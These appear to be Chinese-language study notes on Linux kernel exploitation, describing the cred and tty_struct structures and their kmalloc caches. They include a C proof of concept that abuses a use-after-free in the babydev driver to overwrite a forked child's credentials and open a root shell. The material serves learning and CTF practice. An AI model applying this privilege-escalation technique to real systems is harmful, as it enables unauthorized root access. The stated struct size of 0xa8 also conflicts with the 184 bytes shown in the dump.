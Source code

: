 环境是 linux 4.4.72，比较老的一个版本。

## 结构体总结

### cred

当创建一个新进程时，内核会为其申请一个 struct cred 结构体，用于存放进程信息。

cred 结构体内容如下：

```c
// 结构体大小 0xa8
struct cred {
	atomic_long_t              usage;                /*     0     8 */
	kuid_t                     uid;                  /*     8     4 */
	kgid_t                     gid;                  /*    12     4 */
	kuid_t                     suid;                 /*    16     4 */
	kgid_t                     sgid;                 /*    20     4 */
	kuid_t                     euid;                 /*    24     4 */
	kgid_t                     egid;                 /*    28     4 */
	kuid_t                     fsuid;                /*    32     4 */
	kgid_t                     fsgid;                /*    36     4 */
	unsigned int               securebits;           /*    40     4 */
	
	/* XXX 4 bytes hole, try to pack */
	
	kernel_cap_t               cap_inheritable;      /*    48     8 */
	kernel_cap_t               cap_permitted;        /*    56     8 */
	/* --- cacheline 1 boundary (64 bytes) --- */
	kernel_cap_t               cap_effective;        /*    64     8 */
	kernel_cap_t               cap_bset;             /*    72     8 */
	kernel_cap_t               cap_ambient;          /*    80     8 */
	unsigned char              jit_keyring;          /*    88     1 */
	
	/* XXX 7 bytes hole, try to pack */
	
	struct key *               session_keyring;      /*    96     8 */
	struct key *               process_keyring;      /*   104     8 */
	struct key *               thread_keyring;       /*   112     8 */
	struct key *               request_key_auth;     /*   120     8 */
	/* --- cacheline 2 boundary (128 bytes) --- */
	void *                     security;             /*   128     8 */
	struct user_struct *       user;                 /*   136     8 */
	struct user_namespace *    user_ns;              /*   144     8 */
	struct ucounts *           ucounts;              /*   152     8 */
	struct group_info *        group_info;           /*   160     8 */
	union {
		int                non_rcu;              /*   168     4 */
		struct callback_head rcu;                /*   168    16 */
	};                                               /*   168    16 */

/* size: 184, cachelines: 3, members: 26 */
/* sum members: 173, holes: 2, sum holes: 11 */
/* last cacheline: 56 bytes */
};
```

最常见的打法就是把这个结构体的 uid / gid / suid / sgid 等全部改成 0，使得该子进程拥有root权限。

不过这个结构体在内核 4.5 之后，会使用单独的 叫做 `cred_jar` 的 kmem-cache 来独立分配，普通的 UAF 无法拿到这个结构体，也就没办法打了。


举个例子，在 `_do_fork` 上下断点，`fork` 函数会调用 `prepare_creds` 为子进程创建 cred 结构体，而 `prepare_creds` 会调用 `kmem_cache_alloc`：

![fork调用栈](https://pic1.imgdb.cn/item/68ecc757c5157e1a886c8f20.png)

然后 `p (struct kmem_cache)*0xffff880002c01800` 可以观察到这个函数是从 `kmalloc-192` 取 obj 的。

poc 如下：

```c
#include <kernel.h>

int main() {
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);
    ioctl(fd1, 0x10001, 0xa8);
    close(fd1);  // uaf
    pid_t pid = fork();
    if (pid < 0) {
        error("fork failed, pid = %d", pid);
    } else if (pid == 0) {
        info("child pid => %d", getpid());
        char zero[30] = {0};
        write(fd2, zero, 28);
        if (getuid() == 0) {
            success("getshell");
            system("/bin/sh");
        }
    } else {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```


### tty_struct


当用户态执行open("dev/ptmx",2); 或者open("/dev/ptmx", O_RDWR | O_NOCTTY)后，内核中的处理过程如下图所示：

![tty_struct 分配流程](https://pic1.imgdb.cn/item/68ecca5fc5157e1a886c9eca.png)

其中，`alloc_tty_struct` 会从 `kmalloc-1024` 里取 obj 以满足 `tty_struct` 的 0x2e0 的内存需求。

